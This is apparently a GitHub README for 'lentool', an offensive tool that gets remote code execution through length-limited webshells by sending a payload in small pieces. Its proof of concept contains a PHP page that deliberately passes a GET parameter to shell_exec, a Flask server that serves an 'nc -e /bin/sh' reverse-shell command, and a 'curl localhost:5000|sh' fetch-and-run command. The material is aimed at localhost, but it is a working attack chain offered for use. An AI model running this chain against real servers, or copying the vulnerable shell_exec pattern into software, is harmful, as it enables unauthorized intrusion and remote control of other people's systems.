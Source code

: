 # Description
Tool to RCE in limited input length webshells.  
It pipes the payload to sh, you can customize it with a few changes in the source code, also you could modify it to execute commands directly.

# Usage
```
usage: lentool.py [-h] -c COMMAND -t TARGET [-s MAX_SIZE] [-d DELAY]

optional arguments:
  -h, --help            show this help message and exit
  -c COMMAND, --command COMMAND
                        Payload location
  -t TARGET, --target TARGET
                        Url target (with param ex: http://target?cmd
  -s MAX_SIZE, --max-size MAX_SIZE
                        Maximum amount of characters per request
  -d DELAY, --delay DELAY
                        Time to wait between requests in tenths of a second
```

# Install

```
pip install git+https://github.com/esTse/lentool.git
```

# POC
## Vulnerable application:
```php
<?php
 
$sandbox = '/home/estse/sandbox/';
@mkdir($sandbox);
@chdir($sandbox);

if (!isset($_GET['start'])){
	show_source(__FILE__);
	exit;
}

// This will return output only for id and ps.
if (strlen($_GET['start']) < 5){
	echo shell_exec($_GET['start']);
} else {
	echo "Please enter a valid command";
}

?>
 ```
 ## Flask server to host the payload:
 ```python
from flask import Flask, Response
 
app = Flask(__name__)
 
@app.route('/')
def i():
    return Response("nc -e /bin/sh 127.0.0.1 1234", headers={'Content-Type': 'text/plain'}, status=200)
 
if __name__ == '__main__':
    app.run(host='0.0.0.0',port=5000)
```
## Run:
```
python3 lentool.py -c 'curl localhost:5000|sh' -t http://127.0.0.1/index.php?start -s 4
```
 

https://user-images.githubusercontent.com/40002393/154508216-648b8403-f78a-4298-b68c-85944a2118e1.mp4

# References
https://err0rzz.github.io/2017/11/13/ctf%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E4%B8%8E%E7%BB%95%E8%BF%87/
